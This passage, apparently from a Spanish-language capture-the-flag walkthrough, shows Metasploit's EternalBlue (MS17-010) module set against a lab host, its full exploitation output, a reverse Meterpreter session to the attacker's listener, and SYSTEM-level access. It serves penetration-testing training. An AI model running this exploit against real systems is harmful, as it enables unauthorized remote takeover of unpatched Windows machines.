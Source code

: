```bash
msf6 exploit(windows/smb/ms17_010_eternalblue) > set RHOSTS 10.10.10.40
RHOSTS => 10.10.10.40
```

Luego, podemos ejecutar el exploit y revisar los resultados:

```bash
msf6 exploit(windows/smb/ms17_010_eternalblue) > run
```

```bash
[*] Started reverse TCP handler on 10.10.14.15:4444 
[*] 10.10.10.40:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.10.10.40:445       - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.10.10.40:445       - Scanned 1 of 1 hosts (100% complete)
[*] 10.10.10.40:445 - Connecting to target for exploitation.
[+] 10.10.10.40:445 - Connection established for exploitation.
[+] 10.10.10.40:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.10.10.40:445 - CORE raw buffer dump (42 bytes)
[*] 10.10.10.40:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73  Windows 7 Profes
[*] 10.10.10.40:445 - 0x00000010  73 69 6f 6e 61 6c 20 37 36 30 31 20 53 65 72 76  sional 7601 Serv
[*] 10.10.10.40:445 - 0x00000020  69 63 65 20 50 61 63 6b 20 31                    ice Pack 1      
[+] 10.10.10.40:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 10.10.10.40:445 - Trying exploit with 12 Groom Allocations.
[*] 10.10.10.40:445 - Sending all but last fragment of exploit packet
[*] 10.10.10.40:445 - Starting non-paged pool grooming
[+] 10.10.10.40:445 - Sending SMBv2 buffers
[+] 10.10.10.40:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 10.10.10.40:445 - Sending final SMBv2 buffers.
[*] 10.10.10.40:445 - Sending last fragment of exploit packet!
[*] 10.10.10.40:445 - Receiving response from exploit packet
[+] 10.10.10.40:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 10.10.10.40:445 - Sending egg to corrupted connection.
[*] 10.10.10.40:445 - Triggering free of corrupted buffer.
[*] Sending stage (201283 bytes) to 10.10.10.40
[*] Meterpreter session 1 opened (10.10.14.15:4444 -> 10.10.10.40:49158) at 2020-08-14 11:25:32 +0000
[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
```

Después de abrir la sesión de Meterpreter:

```bash
meterpreter > whoami
[-] Unknown command: whoami.
```

```bash
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```
